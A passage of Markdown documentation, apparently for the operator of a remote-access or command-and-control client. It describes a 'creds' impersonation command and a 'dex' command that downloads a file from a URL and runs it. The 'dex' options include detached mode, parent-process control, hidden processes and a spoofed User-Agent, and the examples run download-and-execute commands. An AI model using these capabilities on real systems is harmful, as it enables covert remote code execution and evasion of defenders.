 (The domain value is ignored on non-Windows clients).

### Examples:

```shell
creds
creds -c
creds user
creds user "" # empty password
creds user password
creds domain\user Password123
creds -d example.com bob password
```

## dex

```text
dex [-x|--detach] [-a|--agent <user-agent>] <url>
```

|       |                                                           |
| ----- | --------------------------------------------------------- |
| OS    | Windows _(ASM/DLL is Windows only)_                       |
| OPsec | **Not Safe! (If the target is a Binary/DLL), Disk Write** |
| Admin | No                                                        |

Downloads the file at the supplied URL (as the client) and attempt to
execute it. The `Content-Type` header determines what action is taken,
and can take the form of many different types, such as an EXE, PowerShell
or Assembly for example.

If the `-x` or `--detach` argument is specified, the command will be ran
in "detached" mode and will return instantly and not be monitored. (This
also allows the process to live even when the client is closed).

**DLL or Binary files make a write to disk!**

The parent of this executable can be controlled by the parent filter,
which can be updated with the filter commands. By default the parent will
be the current client process if not set.

This command is affected by the `set_hide` command, which by default
does not show any processes launched.

The `-a` or `--agent` argument may be specified to change the User-Agent
the client uses to connect to the server. String-Var Dynamic Values are
supported. If left empty, the default Firefox agent string will be used.

See [`help strvar`](StringValues.md) for more info on String-Var Dynamic Values.

### Examples:

```shell
dex google.com/robots.txt
dex -a 'GoogleBot v%100d' google.com/file.txt
```
